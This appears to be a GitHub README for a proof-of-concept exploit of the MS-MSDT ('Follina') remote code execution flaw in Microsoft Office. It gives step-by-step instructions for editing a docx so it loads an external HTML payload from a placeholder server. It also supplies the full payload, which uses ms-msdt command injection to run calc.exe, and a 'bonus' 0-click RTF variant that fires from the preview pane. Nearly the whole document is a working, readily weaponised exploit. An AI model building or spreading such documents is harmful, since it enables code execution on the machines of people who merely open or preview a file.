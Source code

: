 # MS-MSDT 0-day Office RCE

MS Office docx files may contain external OLE Object references as HTML files. There is an HTML sceme "ms-msdt:" which invokes the msdt diagnostic tool, what is capable of executing arbitrary code (specified in parameters).

The result is a terrifying attack vector for getting RCE through opening malicious docx files (without using macros).

Here are the steps to build a Proof-of-Concept docx:

1. Open Word (used up-to-date 2019 Pro, 16.0.10386.20017), create a dummy document, insert an (OLE) object (as a Bitmap Image), save it in docx.

2. Edit `word/_rels/document.xml.rels` in the docx structure (it is a plain zip). Modify the XML tag `<Relationship>` with attribute

```
Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/oleObject"
```

and `Target="embeddings/oleObject1.bin"` by changing the `Target` value and adding attribute `TargetMode`:

```
Target = "http://<payload_server>/payload.html!"
TargetMode = "External"
```

Note the Id value (probably it is "rId5").

3. Edit `word/document.xml`. Search for the "<o:OLEObject ..>" tag (with `r:id="rd5"`) and change the attribute from `Type="Embed"` to `Type="Link"` and add the attribute `UpdateMode="OnCall"`.

NOTE: The created malicious docx is almost the same as for [CVE-2021-44444](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-40444).

4. Serve the PoC (calc.exe launcher) html payload with the ms-msdt scheme at `http://<payload_server>/payload.html`:

```
<!doctype html>
<html lang="en">
<body>
<script>
//AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA should be repeated >60 times
  window.location.href = "ms-msdt:/id PCWDiagnostic /skip force /param \"IT_RebrowseForFile=cal?c IT_SelectProgram=NotListed IT_BrowseForFile=h$(IEX('calc.exe'))i/../../../../../../../../../../../../../../Windows/System32/mpsigstub.exe \"";
</script>

</body>
</html>
```

Note that the comment line with AAA should be repeated >60 times (for filling up enough space to trigger the payload for some reason).

## BONUS (0-click RTF version)

If you also add these elements under the `<o:OLEObject>` element in `word/document.xml` at step 3:

```
<o:LinkType>EnhancedMetaFile</o:LinkType>
<o:LockedField>false</o:LockedField>
<o:FieldCodes>\f 0</o:FieldCodes>
```

then it'll work as RTF also (open the resulting docx and save it as RTF).

With RTF, there is no need to open the file in Word, it is enough to browse to the file and have a look at it in a preview pane. The preview pane triggers the external HTML payload and RCE is there without any clicks. :)
